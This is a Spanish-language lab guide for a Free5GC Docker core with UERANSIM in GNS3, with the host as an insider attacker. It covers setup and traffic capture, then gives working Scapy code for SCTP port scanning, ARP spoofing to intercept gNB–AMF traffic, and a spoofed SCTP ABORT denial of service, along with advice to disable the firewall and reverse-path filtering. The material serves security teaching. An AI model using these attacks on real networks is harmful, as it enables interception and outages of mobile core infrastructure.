





# (Escenario 6) Free5GC + UERANSIM (Docker) + HOST (Insider)

  

# (Escenario 6) Free5GC + UERANSIM (Docker) + HOST (Insider)

En este caso, vamos a utilizar una configuración totalmente diferente de
Free5GC, esta vez basada en un despliegue de Docker. El esquema es
sencillo, porque lo que interesa es poder interactuar con los diferentes
elementos de la red 5G. Partimos de un GNB y UE idéntico a los
escenarios anteriores, que se ejecutan en la GNS3-VM, el despliegue de
Free5GC sobre Docker, que se ejecuta en el HOST, y conectamos el HOST al
escenario para poder utilizarlo como máquina atacante.

Aunque podemos utilizar una VM o Docker especializado, como es el caso
de Kali Linux, o bien generar una VM o un Docker que incluya todas las
herramientas necesarias, en muchos casos nuestro host ya incluye todo lo
necesario, por lo que puede ser interesante poder utilizarlas sin tener
que duplicar dichas funcionalidades.

## El HOST como un equipo más de GNS3

Para poder integrar nuestro equipo HOST en los escenarios de GNS3, es
necesario utilizar una interfaz virtual que va a ser enlazada con un
nodo Cloud de GNS3.

### ✅ ✅ Objetivo

Usar tu **Ubuntu real como máquina atacante** dentro de GNS3, sin VM:

    [Ubuntu host (VS Code / herramientas)]
                │
          (interfaz virtual / tap / bridge)
                │
             [Cloud]
                │
          Red GNS3

### 🔧 OPCIÓN 1: interfaz virtual + Cloud

### 🔹 1. Crear una interfaz virtual en Ubuntu

Puedes hacerlo con `ip`:

    sudo ip link add gns3-host type dummy
    sudo ip addr add 128.100.100.100/24 dev gns3-host
    sudo ip link set gns3-host up

👉 Esto crea una “NIC falsa” solo para GNS3.

### 🔹 2. Añadir Cloud en GNS3

1.  Añades un nodo **Cloud**
2.  En configuración → seleccionas:`gns3-host`

<!-- -->

1.  Lo conectas a tu switch/router

### 🔹 3. Configurar red en GNS3

Ejemplo:

`Ubuntu host: 128.100.100.100`

`COREGW: 128.100.100.1`

### 🔹 4. Routing (si es necesario)

Si tu tráfico pasa por routers:

sudo ip route add 128.100.100.0/24 dev gns3-host

(o gateway concreto si aplica)

### ✅ OPCIÓN 2 (muy potente y RECOMENDADA): TAP + bridge

Si quieres algo más realista (nivel laboratorio pro):

### 🔹 Crear TAP

    sudo ip tuntap add dev tap0 mode tap
    sudo ip addr add 128.100.100.100/24 dev tap0
    sudo ip link set tap0 up

Luego:

- Cloud → seleccionas `tap0`

👉 Ventaja:

- Permite tráfico más “real” (nivel Ethernet)
- Útil para ataques avanzados (ARP, sniffing)

### ⚡ OPCIÓN 3 (si usas GNS3 VM, LA MAS DIRECTA Y SIMPLE): bridge con red virtual

Si GNS3 VM corre en VirtualBox / VMware:

- Conectas host ↔ VM con red host-only
- Luego Cloud usa esa interfaz

(esto ya lo tienes medio montado si tienes GNS3 y el GNS3-VM, pero
fuerza el uso del direccionamiento de la red Host-only, lo cual no
siempre es deseable)

### ✅ COMPROBACIÓN

Antes de continuar con tu escenario, realiza algunas comprobaciones de
conectividad, tanto desde el Host, como desde alguno de los nodos del
mismo

### 🚀 USO REAL CON VISUAL STUDIO / HERRAMIENTAS

Ahora puedes usar directamente las herramientas del equipo Host:

### 🔹 C / C++

- sockets raw
- ataques personalizados

### 🔹 Python

pip install scapy

### 🔹 Ejemplo Scapy:

from scapy.all import \*

    pkt = IP(dst="128.100.100.1")/ICMP()
    send(pkt)

### 🔹 .NET / VS Code

Puedes hacer:

- escáner TCP
- fuzzing
- simulación de exploits
- generación de tráfico malicioso controlado

### ⚠️ COSAS IMPORTANTES

## 🔸 Firewall (iptables / ufw)

Desactiva o ajusta:

    sudo ufw disable

o permite tráfico específico

## 🔸 Reverse Path Filtering (clave)

Linux puede bloquear tráfico:

    sudo sysctl -w net.ipv4.conf.all.rp_filter=0

## 🔸 Permisos en interfaces TAP

Si usas `tap`:

    sudo chmod 666 /dev/net/tun

# FREE5GC en formato DOCKER

Source: [free5gc-compose/README.md at master · free5gc/free5gc-compose ·
GitHub](https://github.com/free5gc/free5gc-compose/blob/master/README.md)

Como alternativa al uso de Free5GC como una máquina virtual completa,
tenemos la opción de desplegar el CORE de Free5GC en forma de Dockers
(hay versiones más avanzadas que incluyen la gestión mediante
Kubernetes). Las ventajas de utilizar esta solución, es que vamos a
poder tener acceso a cada una de las NRF que incluye el CORE, sin más
que identificar el contenedor correspondiente. Además, podremos utilizar
herramientas especializadas para la gestión de dichos contenedores, como
es el caso de
[EdgeShark](5GTACTIC--CORE--OpenAirInterface-CN--Instalación_en_Ubuntu_22.04_21.html),
que se incluye en esta distribución.

## Instalación de Imáges Free5GC

IMPORTANTE: La distribución de este laboratorio YA INCLUYE una
preinstalación de las imágenes del CORE, situadas en el HOST (Ubuntu),
por lo que no es necesario completar este proceso

Para construir las imágenes de docker desde las fuentes llocales:

    # Clone the project
    git clone https://github.com/free5gc/free5gc-compose.git
    cd free5gc-compose

    # clone free5gc sources
    cd base
    git clone --recursive -j"$(nproc)" https://github.com/free5gc/free5gc.git
    cd ..

    # Build the images
    make all
    docker compose -f docker-compose-build.yaml build

    # Alternatively you can build specific NF image e.g.:
    make amf
    docker compose -f docker-compose-build.yaml build free5gc-amf

### Nota:

Durante el proceso de creación es posible que aparezca alguna imagen en
estado de “dangling”. Se recomienda eliminar este tipo de imágenes de
vez en cuando, liberando así espacio en disco

### .

    docker rmi $(docker images -f "dangling=true" -q)

O bien utilizar "docker image prune".

Nota:- Imágenes “danglig” son aquellas que no tienen asignada etiqueta o
contenedor activo.

# Running Free5GC

Podemos lanzar directamente bien desde las fuentes locales o bien desde
el propio docker-hub:

    # use local images
    docker compose -f docker-compose-build.yaml up
    # use images from docker hub
    docker compose up # add -d to run in background mode

Para no dejar los contenedores creados, es bueno destruirlos tras
finalizar las pruebas:

    # Remove established containers (local images)
    docker compose -f docker-compose-build.yaml rm
    # Remove established containers (remote images)
    docker compose rm

# Configurar la base de datos de usuarios

Esta versión de Free5GC hace uso de la interfaz WebUI.

# Utilizar GNB y UE externos

La distribución docker incluye versiones tanto del GNB como del UE the
UERANSIM, que están integrados en la red del CORE Free5G.

Sin embargo, se recomienda utilizar las versiones desplegadas en los
escenarios anteriores, para un mejor control de las partes de ACCESO y
de CORE.

Tenga siempre en cuenta que la red del CORE se encuentra en el rango IP
10.100.200.0/24 (Siendo la IP del AMF=16)

IMPORTANTE: Las configuraciones por defecto de los docker UERANSIM
presenta IP's fuera de los rangos de este escenario. Compruebe que todas
las direcciones están asignadas de acuerdo con lo esperado. Además, los
ficheros de configuración originales del GNB y UE pueden requerir
realizar también cambios de acuerdo con esta idea.

## Utilizar EDGESHARK para supervisar NRFs

En un terminal aparte...Para levantar con docker-compose... Expone el
puerto 5001 del localhost (quitando -localhost hace el puerto público)

    wget -q --no-cache -O - \
      https://github.com/siemens/edgeshark/raw/main/deployments/wget/docker-compose-localhost.yaml \
      | DOCKER_DEFAULT_PLATFORM= docker compose -f - up

Para parar, basta con cerrar el terminal

Necesitaremos instalar un plugin para que wireshark pueda capturar de
los dockers (aunque creo que se puede directamente viendo los TUP que se
generan como interfaces...

    wget https://github.com/siemens/cshargextcap/releases/download/v0.10.7/cshargextcap_0.10.7_linux_amd64.deb
    sudo dpkg -i cshargextcap_0.10.7_linux_amd64.deb 

# Practica

  

Nota.- En caso de que al abrir en GNS3 los escenarios predefinidos,
puede darse que devuelva errores con contenedores docker. Esto es normal
cuando cerramos de forma abrupta algún escenario o el propio GNS3. Por
todo ello, es recomendable eliminar los contenedores que quedan
bloqueados. Para ello ejecute el siguiente comando:

docker rm \$(docker ps -a -q)

# Iniciar Free5GC

Esta versión ejecuta todos los contenedores docker en el HOST, por lo
que es necesario arrancar desde una terminal de Ubuntu:

    cd free5gc-compose
    docker compose -f docker-compose-build.yaml up

Para parar todo el despliegue basta con repetir el coando anterior
indicando “down”.

Nota: Para no dejar los contenedores creados, es bueno destruirlos tras
finalizar de utilizar el escenario:

    # Remove established containers (local images)
    docker compose -f docker-compose-build.yaml rm
    # Remove established containers (remote images)
    docker compose rm

Una vez arrancado el sistema, podemos comprobar que todos los NRF han
sido levantados como contenedores en la red br-free5gc (10.10.200.0/24)

    docker ps

Otra forma, para ver las IP y puertos asignados:

    docker compose ps -a --format "table {{.Name}}\t{{.Service}}\t{{.Status}}\t{{.Publishers}}"

IMPORTANTE.- Comprobamos que el nodo Free5GC está activo (el extremo del
enlace debe mostrar un punto verde = UP)

Cada vez que se arranca/apaga la red Free5GC, la interfaz del nodo de
GNS3 se queda en estado DOWN. Necesitamos eliminar el enlace que une el
nodo con el switch y volverle a crear, uniendo el interfaz eth0 del
switch con la interfaz br-free5GC.

# Conectar un Atacante

El nodo INSIDER_HOST se corresponde con la máquina Ubuntu, que enlazamos
dentro de GNS. Este nodo es parecido al de Free5GC, siendo un nodo CLOUD
que expone las interfaces del Ubuntu. Sin embargo, debemos preparar la
configuración de la interfaz tap0, que es la debemos solucionar.

En un terminal del Ubuntu:

ip addr show dev tap0

Comprobamos que la interfaz tap0 tenga dirección IP asignada, en
concreto la 10.100.200.123, en caso contrario, la asignamos:

    sudo ip addr add 128.100.100.123/24 dev tap0
    sudo ip link set tap0 up

Nos aseguramos que el enlace entre el nodo y el switch está activo y
apuntando a tap0 (en la ventana Topology Summary de GNS3 puedes
comprobar los extremos de los enlaces de cada nodo).

TIP.- Es bueno comprobar que haya conectividad entre los dos nodos. Para
ello prueba a hace un ping desde la terminal del Ubuntu a alguna de las
direcciones de la red Free5GC (el AMF es la 10.100.200.16)

# Arrancar GNB y UE

Tras arrancar y abrir una consola del GNB, comprobamos que las IP
asignadas \`no entren en conflicto con las ya utilizadas. Comprobamos
las IP utilizadas por los NRF de Free5GC:

    docker network inspect free5gc-compose_privnet --format '{{json .Containers}}' | jq '.[] | .Name + " -> " + .IPv4Address'

Seguramente la IP 10.100.200.7 ya esté siendi utilizada por otro NRF. Si
es el caso, tenemos que modificar la IP del GNB, por ejemplo a la
10.100.200.27. Para ello paramos el contenedor y abrimos la
“configure”-\>Network configuration-\>Edit, y cambiamos la IP.

Una vez modificado, arrancamos de nuevo el GNB.

Editamos el fichero del GNB para corregir la IP local (10.100.200.27) y
conectarse al nuevo AMF (10.100.200.16)

Arrancamos en background:

    ./nr-gnb -c config/free5gc-gnb.yaml &

Tip.- Para pararlo miramos el PID con el comando “ps” y luego “kill
\<PID\>”

Arrancamos el nodo UE y modificamos el fichero de configuración
free5gc-ue.yaml para que apunte al nuevo GNB (10.100.200.27)

Antes de arrancar la aplicación, debemos asegurarnos que el perfil del
cliente se encuentra registrado, par alo cual debemos entrar a la base
de datos del operador. Para ello podemos usar el WebUI, desplegado en la
red Free5GC. No necesitamos conocer su direcciñon IP, porque ya tienen
exportado el puerto 5000 sobre la IP del br-free5gc.

Abrimos el navegador en el Ubuntu, con la URL
<http://10.100.200.1:5000>, usuario “admin”, password “free5gc”.
ZSeleccionamos “Subscriber” y creamos un perfil. Nos aseguramos que
coinciden los datos PLMN y UE-ID con los del fichero de configuración
del UE, y modificamos el “Operator Code Type” de “Opc” a “Op”.

Ahora ya podemos arrancar la aplicación:

    ./nr-ue -c config/free5gc-ue.yaml &

Pese a aparecer algún error inicial y warnings, todo debiera llegar al
establecimiento del tunel de acceso a internet “uesimtun0”, con una
dirección IP asignada.

Solo nos falta asignar la ruta por defecto en el UE para que utilice el
nuevo tunel implementado:

    ip route add default dev uesimtun0

# Viendo el tráfico entre NRFs

Una forma muy práctica de observar el comportamiento de las conexiones
entre las NRF es utilizar la herramienta
[EdgeShark](5GTACTIC--EdgeShark_48.html), mediant ela cual vamos a poder
obtener información de toda la red free5GC. Para ello tenemos que
activar la aplicación:

cd /home/user5gtactic/EdgeShark

docker compose -f edgeshark.yaml up -d

En el navegador, basta con abrir la URL: http://localhost:5001

Podemos ver todas las interfaces del Ubuntu, físicas, virtuales,
dockers, etc. Los conetendores de Free5GC aparecen directamente con sus
nombre, y podemos ver toda su información, incluyendo direcciones IP,
pero además podemos interactuar con dichas interfaces, pudiendo lanzar
el analizador Wireshark desde el mismo navegador.

Lo primero de todo vamos a parar tanto la aplicación del UE, como la del
GNB, para capturar todo el proceso de registro.

Vamos a realizar dos capturas de tráfico, para lo cual vamos a buscar en
EdgeShark la interfaz del SMF y a la derecha seleccionamos abrir
Wireshark.

Por otro lado, en GNS3, seleccionamos el enlace que une al nodo Free5GC
y con el boton derecho seleccionamos capturar con Wireshark.

Una vez abiertos, arrancamos la aplicación del GNB, y después lo mismo
con el UE.

Una vez establecido el tunel uesimtun0 podemos parar ambas capturas.

En el Wireshark del interfaz del SMF veremos que hay tramas PFCP y TCP.
Wireshark por defecto no suele reconocer HTTP2. Seleccionamos una trama
TCP (que lleve datos, es decir, que no sea SYN o solo ACK). Botón
derecho y seleccionamos “Decode As” y en la columna “Current”
desplegamos y seleccionamos HTTP2.

Observe cómo el HTTP2 que intercambian AMF y SMF no hace uso efectivo de
TLS, y puede ser capturado y decodificado sin demasiados problemas.

Para verificar la versión de SSL que utilizan los servidores podemos
hacer:

    openssl s_client -connect 10.100.200.4:8000 -tls1_2

Devuelve:

    CONNECTED(00000003)
    4017FA15787D0000:error:0A00010B:SSL routines:ssl3_get_record:wrong version number:../ssl/record/ssl3_record.c:354:
    ---
    no peer certificate available
    ---
    No client certificate CA names sent
    ---
    SSL handshake has read 5 bytes and written 188 bytes
    Verification: OK
    ---
    New, (NONE), Cipher is (NONE)
    Secure Renegotiation IS NOT supported
    Compression: NONE
    Expansion: NONE
    No ALPN negotiated
    SSL-Session:
        Protocol  : TLSv1.2
        Cipher    : 0000
        Session-ID: 
        Session-ID-ctx: 
        Master-Key: 
        PSK identity: None
        PSK identity hint: None
        SRP username: None
        Start Time: 1782044774
        Timeout   : 7200 (sec)
        Verify return code: 0 (ok)
        Extended master secret: no
    ---

Si probamos el enlace directamente:

    curl -vk --tlsv1.1 https://10.100.200.4:8000/nnrf-nfm/v1/nf-instances

Devuelve:

    *   Trying 10.100.200.4:8000...
    * Connected to 10.100.200.4 (127.0.0.10) port 8000
    * ALPN: curl offers h2,http/1.1
    * TLSv1.3 (OUT), TLS handshake, Client hello (1):
    * OpenSSL/3.0.13: error:0A00010B:SSL routines::wrong version number
    * Closing connection
    curl: (35) OpenSSL/3.0.13: error:0A00010B:SSL routines::wrong version number

Lo cual es síntoma de que los servidores no utilizan TLS.

Probamos con:

    curl -vk --tlsv1.1 http://10.100.200.4:8000/nnrf-nfm/v1/nf-instances

Y devuelve:

    *   Trying 10.100.200.4:8000...
    * Connected to 10.100.200.4 (127.0.0.10) port 8000
    > GET /nnrf-nfm/v1/nf-instances HTTP/1.1
    > Host: 10.100.200.4:8000
    > User-Agent: curl/8.5.0
    > Accept: */*
    > 
    < HTTP/1.1 401 Unauthorized
    < Content-Type: application/json; charset=utf-8
    < Date: Fri, 20 Jun 2025 11:31:52 GMT
    < Content-Length: 53
    < 
    * Connection #0 to host 10.100.200.4 left intact
    {"error":"verify OAuth Authorization header invalid"}

Si probamos a mandar como HTTP2:

    curl -v --http2 http://10.100.200.4:8000/nnrf-nfm/v1/nf-instances

Nos devuelve:

    *   Trying 10.100.200.4:8000...
    * Connected to 10.100.200.4 (10.100.200.4) port 8000
    > GET /nnrf-nfm/v1/nf-instances HTTP/1.1
    > Host: 10.100.200.4:8000
    > User-Agent: curl/8.5.0
    > Accept: */*
    > Connection: Upgrade, HTTP2-Settings
    > Upgrade: h2c
    > HTTP2-Settings: AAMAAABkAAQAoAAAAAIAAAAA
    > 
    < HTTP/1.1 101 Switching Protocols
    < Connection: Upgrade
    < Upgrade: h2c
    * Received 101, Switching to HTTP/2
    < HTTP/2 401 
    < content-type: application/json; charset=utf-8
    < content-length: 53
    < date: Fri, 20 Jun 2025 12:15:46 GMT
    < 
    * Connection #0 to host 10.100.200.4 left intact
    {"error":"verify OAuth Authorization header invalid"}

# El proceso de registro del GNB y el UE

En el otro Wireshark tendremos capturado todo el proceso de registro
tanto del GNB. Este completa intercambios SCTP hasta comenzar la
comunicación NGAP. Identifique el proceso de registro del GNB, y la
parte en la que el GNB registra al UE en la red.

¿Por qué no se ve nada de tráfico del UE?

# Atacando a la red Core

# Preparativos

Tenemos instalado VisualStudio Code par apoder manejar más fácilmente
los script de python que vamos a probar. Necesitamos hacer un par de
preparaciones previas.

En un terminal del Ubuntu cargamos las librerías necesarias para poder
manipular tráfico SCTP:

    sudo apt install -y build-essential python3-dev libglib2.0-dev libsctp-dev

En la URL <https://github.com/telecomatico/5GTACTIC_HACKING> tenemos
ejemplos que vamos a poder utilizar. En Visual studio pedimos que
descargue del repositorio de GITHUB y que genere automáticamente un
entorno venv, aplicando el fichero de Requirements.txt.

Si no aparecen dichas opciones, abrimos un terminal y creamos el entorno
a mano, además de cargar todas las dependencias:

    python3 -m venv venv
    source venv/bin/activate
    pip install -r requirements.txt

Ya podemos utilizar el terminal para ejecutar nuestros scripts.

## Escaneando la red

Con SCAPY podemos crear un scaner muy simple de puertos SCTP.

Solo es necesario indicar la IP de la víctima y devuelve la lista de
puertos abiertos

    # Función para escanear puertos SCTP
    def scan_sctp_ports(ip):
        open_ports = []
        for port in range(1, 65536):
            sock = sctp.sctpsocket_tcp(socket.AF_INET)
            sock.settimeout(1)
            try:
                sock.connect((ip, port))
                open_ports.append(port)
            except:
                pass
            finally:
                sock.close()
        return open_ports

Un ejemplo de salida es el siguiente:

La función manda un SCTP_INIT a los puertos 1..65535:

- Los puertos cerrados, devuelven directamente un SCTP_ABORT
- Los puertos abiertos responden con un SCTP_INIT_ACK, completa el
  4-way-handshake (con COOKIE_ECHO y COOKIE_ACK) e inmediatamente libera
  la conexión con la secuencia SHUTDOWN-SHUTDOWN_ACK-SHUTDOWN_COMPLETE,
  como se muestra en la captura con el puerto 38412 (AMF/SCTP)

## Spoofing

Mediante unas funciones muy simples y el Scapy, es posible hacer una
corrupción de las tablas de ARP tanto en el cliente como el servidor:

    # Función para obtener la MAC
    def get_mac(ip): 
        arp_request = scapy.ARP(pdst = ip) 
        broadcast = scapy.Ether(dst ="ff:ff:ff:ff:ff:ff") 
        arp_request_broadcast = broadcast / arp_request 
        answered_list = scapy.srp(arp_request_broadcast, timeout = 5, verbose = False)[0] 
        return answered_list[0][1].hwsrc 

    # Función para realizar ARP Spoofing
    def arp_spoof_basic(target_ip, spoof_ip):

        # Get the MAC address of the target IP
        target_mac = scapy.getmacbyip(target_ip)
        # Create the ARP packet
        packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
        # Send the ARP packet
        scapy.send(packet, verbose=False)
        # Return the MAC address of the target IP
        return target_mac

    #    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=scapy.getmacbyip(target_ip), psrc=spoof_ip)
    #    scapy.send(packet, verbose=False)

    # Función para restaurar los valores originales en las tablas ARP
    def restore(destination_ip, source_ip): 
        print(destination_ip)
        #destination_mac = get_mac(destination_ip) 
        destination_mac = scapy.getmacbyip(destination_ip)
        print(str(destination_mac + " - " + destination_ip))
        #source_mac = get_mac(source_ip) 
        source_mac = scapy.getmacbyip(source_ip)
        print(str(source_mac + " - " + source_ip))
        packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac) 
        scapy.sendp(scapy.Ether(dst=destination_mac)/packet, verbose = False) 

 

La consecuencia directa del spoofing es que de esa manera podemos
recibir en nuestro equipo todas las tramas que intercambia cliente y
servidor:

En wireshark se observa como por cada SCTP que genera el cliente hay una
idéntica que se reenvía con la MAC del atacante. Lo mismo ocurre con las
SCTP enviadas desde el servidor.

La consecuencia directa es que no necesitamos capturar en cada extremo,
envenenando las tablas ARP el sistema actua como un puerto espejo, sin
afectar al comportamineto de la comunicación cliente-servidor

## DoS

:

## Uso de SCTP_CHUNK_ABORT en conexiones SCTP

Haga pruebas con el código facilitado, asegurándose de modificar las
direcciones IP por las que correspondan.

    El código utilizado es el siguiente:
    print("\nCaptured HEARTBEAT packet details:")
    print(f"Source IP: {src_ip}")
    print(f"Destination IP: {dst_ip}")
    print(f"Source Port: {src_port}")
    print(f"Destination Port: {dst_port}")
    print(f"Verification Tag: {vtag:#010x}")

    # Step 2: Sniffing stops automatically due to count=1

    # Step 3: Construct SCTP ABORT packet
    abort_pkt = (
        IP(src="10.10.10.7", dst="10.10.10.155") /
        SCTP(sport=dst_port, dport=src_port, tag=vtag) /
        SCTPChunkAbort(TCB=1)
        #SCTPChunkShutdown()
    )

    print("\nABORT packet parameters:")
    print(f"Source IP: 10.10.10.7 (spoofed as Node C)")
    print(f"Destination IP: 10.10.10.155 (Node S)")
    print(f"Source Port: {dst_port}")
    print(f"Destination Port: {src_port}")
    print(f"Verification Tag: {vtag:#010x}")
    print("Chunk Type: ABORT")

    # Step 4: Send the ABORT packet to Node S
    from scapy.all import *
    import time

    # Function to check if a packet is an SCTP HEARTBEAT from Node S to Node C
    def is_heartbeat_packet(pkt):
        return ((SCTP in pkt) and
                (SCTPChunkHeartbeatReq in pkt) and
                (pkt[IP].src == "10.10.10.7") and
                (pkt[IP].dst == "10.10.10.155"))

    # Step 1: Monitor and capture a HEARTBEAT packet
    print("Monitoring network for SCTP HEARTBEAT packet from 10.10.10.7 to 10.10.1.155...>
    packets = sniff(iface="enp0s8", filter="sctp", prn=lambda x: x, stop_filter=is_heartbeat_packet, count=1)

    if not packets:
        print("No HEARTBEAT packet captured. Exiting.")
        exit(1)

    # Extract the first captured packet
    heartbeat_pkt = packets[0]

    # Extract and print required fields
    src_ip = heartbeat_pkt[IP].src
    dst_ip = heartbeat_pkt[IP].dst
    src_port = heartbeat_pkt[SCTP].sport
    dst_port = heartbeat_pkt[SCTP].dport
    vtag = heartbeat_pkt[SCTP].tag

    print("\nCaptured HEARTBEAT packet details:")
    print(f"Source IP: {src_ip}")
    print(f"Destination IP: {dst_ip}")
    print(f"Source Port: {src_port}")
    print(f"Destination Port: {dst_port}")
    print(f"Verification Tag: {vtag:#010x}")

    # Step 2: Sniffing stops automatically due to count=1

    # Step 3: Construct SCTP ABORT packet
    abort_pkt = (
        IP(src="10.10.10.7", dst="10.10.10.155") /
        SCTP(sport=dst_port, dport=src_port, tag=vtag) /
        SCTPChunkAbort(TCB=1)
        #SCTPChunkShutdown()
    )

    print("\nABORT packet parameters:")
    print(f"Source IP: 10.10.10.7 (spoofed as Node C)")
    print(f"Destination IP: 10.10.10.155 (Node S)")
    print(f"Source Port: {dst_port}")
    print(f"Destination Port: {src_port}")
    print(f"Verification Tag: {vtag:#010x}")
    print("Chunk Type: ABORT")

    # Step 4: Send the ABORT packet to Node S
    print("\nSending ABORT packet to Node S (10.10.10.155)...")

    for i in range(1, 11):
        send(abort_pkt, verbose=False)
        print(f"{i} - ABORT packet sent.\n")
        time.sleep(2)

Básicamente realiza las siguientes acciones:

1º Escucha en la interfaz “enp0s8”, que es la que tiene IP 10.10.10.7 y
el servidor/Cliente del GNB de UERANSIM

2º Captura el primer SCTP_HEARTBEAT_REQ que UERANSIM (GNB) envía al
servidor (Open5GS) en la IP 10.10.10.155

3º Copia el TAG de asociación (Verification Tag)

4º Genera un paquete SCTP_CHUNK_ABORT...(Posible detonante: al modificar
el Byte TCB, que por defecto está a 0, por el valor 1)

En el chunk ABORT de SCTP, los campos "reserved"
de 7 bits y "TCB" de 1 bit tienen funciones específicas:

1.  Reserved (7 bits): Este campo está reservado
    para uso futuro y debe ser establecido en cero. No tiene un uso
    definido en la especificación actual del protocolo, pero se reserva
    para posibles extensiones o modificaciones futuras 
2.  TCB (1 bit): El bit TCB (Transmission
    Control Block) se utiliza para indicar si el chunk ABORT contiene
    información adicional sobre el estado de la conexión que puede ser
    útil para el diagnóstico. Si este bit está establecido en 1,
    significa que el chunk ABORT incluye información adicional sobre el
    estado de la conexión

5º Se envía una secuencia de reenvíos de este paquete generado

Al ejecutarlo, el terminal muestra lo siguiente:

Como consecuencia de la secuencia de ABORT, el proceso del GNB entra en
ERROR y se cierra:

Se observa en los logs que los abort acaban generando un SCTP
association shutdown en el Free5GC (concretamente en el AMF) provocado
por una notificación SCTP que no está manejada por el código.

Si observamos la captura (en la máquina que contiene el servidor
Free5GC:

Los primeros Abort no provocan reacción en el servidor. Sin embargo, en
el momento que el Cliente, ajeno a todo este proceso, genera un
HEARTBEAT, el servidor reacciona con su propio ABORT, desencadenado por
el SHUTDOWN de la asociación (con el AMF).

